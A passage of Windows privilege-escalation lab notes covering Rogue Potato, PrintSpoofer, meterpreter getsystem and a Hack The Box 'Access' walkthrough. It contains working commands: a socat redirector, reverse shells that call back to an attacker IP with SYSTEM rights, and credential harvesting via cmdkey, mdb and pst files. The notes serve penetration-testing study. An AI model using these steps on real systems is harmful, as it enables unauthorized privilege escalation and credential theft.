 ### 12.3 Alternate Data Streams
`dir /R`
![lab](006.PNG)

Alternative Data Stream: https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/

### 12.4 Rogue Potato
1. Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows: `sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999`
2. Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account: `C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`
3. Start another listener on Kali.
4. Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly): `C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999`

### 12.5 PrintSpoofer
1. Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:   `C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`
2. Start another listener on Kali.
3. Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly): `C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`

## 13. getsystem <a name="getsystem"></a>
In metasploit meterpreter run `getsystem` it will try to escalate privileges.

getsystem explanation: https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

## 14. Runas <a name="Runas"></a>

### Example (Access HTB):
 `cmdkey /list` will look for stored credentials in the system. Or we can use WinPeas etc.

**Gaining Foothold:**
1. Run nmap there is three ports: 21,23,80
2. Check page and page source whether anything is there.
3. Go to ftp and check whether there is any anonymous login. 
4. Run command `binary`  as its more stable than ascii for transfer of file.
5. Download files from backup and engineer directory.
6. In zip file there .pst file. open the file in windows.
7. There is auth table  in backup.mdb file that we got from ftp and we got some credentials.
8. We can read mdb file in linux with `mdb-sql backup.mdb` and to read pst file `readpst [pst_file]`
9. Tried to telnet but didn't work.
10. unzip file withe credetial found. When read the pst file we are able to get another credential with username "security".
11. Now we can telnet with the credentials.
